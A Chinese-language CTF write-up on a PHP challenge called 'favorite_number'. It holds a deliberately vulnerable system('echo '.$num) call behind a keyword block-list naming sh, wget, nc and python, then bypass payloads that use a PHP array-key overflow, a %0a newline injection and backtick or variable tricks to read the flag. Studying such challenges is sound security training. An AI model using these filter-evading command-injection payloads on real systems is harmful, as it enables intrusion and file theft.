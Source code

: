 # favorite_number

```php
<?php
//php5.5.9
$stuff = $_POST["stuff"];
$array = ['admin', 'user'];
if($stuff === $array && $stuff[0] != 'admin') {
    $num= $_POST["num"];
    if (preg_match("/^\d+$/im",$num)){
        if (!preg_match("/sh|wget|nc|python|php|perl|\?|flag|}|cat|echo|\*|\^|\]|\\\\|'|\"|\|/i",$num)){
            echo "my favorite num is:";
            system("echo ".$num);
        }else{
            echo 'Bonjour!';
        }
    }
} else {
    highlight_file(__FILE__);
}
```

绕过 `if($stuff === $array && $stuff[0] != 'admin')`:

```
stuff[4294967296]=admin&stuff[1]=user   PHP数组的key溢出问题.
```

绕过 `if (preg_match("/^\d+$/im",$num))`:

```
num=123%0a
```

绕过 `if (!preg_match("/sh|wget|nc|python|php|perl|\?|flag|}|cat|echo|\*|\^|\]|\\\\|'|\"|\|/i",$num))`:

找到 `flag` 在:

```
stuff[4294967296]=admin&stuff[1]=user&num=123%0als+-a+../../../../
```

一些 payload:

```
stuff[4294967296]=admin&stuff[1]=user&num=123%0aca``t+../../../../fla``g
stuff[4294967296]=admin&stuff[1]=user&num=123%0atac+../../../../fla$1g
stuff[4294967296]=admin&stuff[1]=user&num=123%0atac+../../../../fla$@g
```

```
stuff[4294967296]=admin&stuff[1]=user&num=123%0aprintf+../../../../fla+>>+../../../../tmp/payload.txt
stuff[4294967296]=admin&stuff[1]=user&num=123%0aprintf+g+>>+../../../../tmp/payload.txt
stuff[4294967296]=admin&stuff[1]=user&num=123%0atac+`tac+../../../../tmp/payload.txt`
```

```
stuff[4294967296]=admin&stuff[1]=user&num=123%0als+-i+../../../../
stuff[4294967296]=admin&stuff[1]=user&num=123%0atac+`find+/+-inum+36047176`
```

```
stuff[4294967296]=admin&stuff[1]=user&num=123%0aa=fla;b=g;tac+/$a$b
```
